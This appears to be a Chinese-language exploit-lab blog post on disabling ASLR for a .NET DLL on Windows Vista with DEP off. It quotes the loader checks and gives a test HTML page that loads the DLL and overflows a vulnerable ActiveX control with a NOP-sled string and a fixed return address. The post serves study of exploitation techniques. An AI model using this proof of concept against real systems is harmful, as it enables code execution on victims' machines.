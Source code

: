 ```yaml
---
layout:		post
title:		为.NET控件禁用ASLR
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows Vista Ultimate sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>注意: 关闭系统DEP  
<!-- more -->


PE文件是否启用ASLR校验过程

```
......
if( !(pBinaryInfo->pHeaderInfo->usDllCharacteristics & IMAGE_DLL_ CHARACTERISTICS_ DYNAMIC_BASE) &&
		!(pBinaryInfo->pHeaderInfo->bFlags &PINFO_IL_ONLY_IMAGE) && !(_MmMoveImages == -1) )
{
	MiNoRelocate++;
	return 0;
}
......
```

.NET文件是否IL-Only校验过程, 版本号<2.5认定为IL-Only

```
......
if( ( (pCORHeader->MajorRuntimeVersion > 2) || (pCORHeader->MajorRuntime- Version == 2 && 
	pCORHeader->MinorRuntimeVersion >= 5) ) && (pCORHeader->Flags & COMIMAGE_FLAGS_ILONLY) )
{
	pImageControlArea->pBinaryInfo->pHeaderInfo->bFlags |= PINFO_IL_ONLY_
	IMAGE;
	......
}
......
```

修改DEP_NETDLL.dll

![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x00.png)
![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x01.png)

新建test.html, 这里依旧要用到VulnerAX.ocx

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\u24E2\u2424";
test.test(s);
</script>
</body>
</html>
```

OD附加上去, DEP_NETDLL.dll的加载基址没有随机化

![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x02.png)

直接运行, pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-dot-net/0x03.png)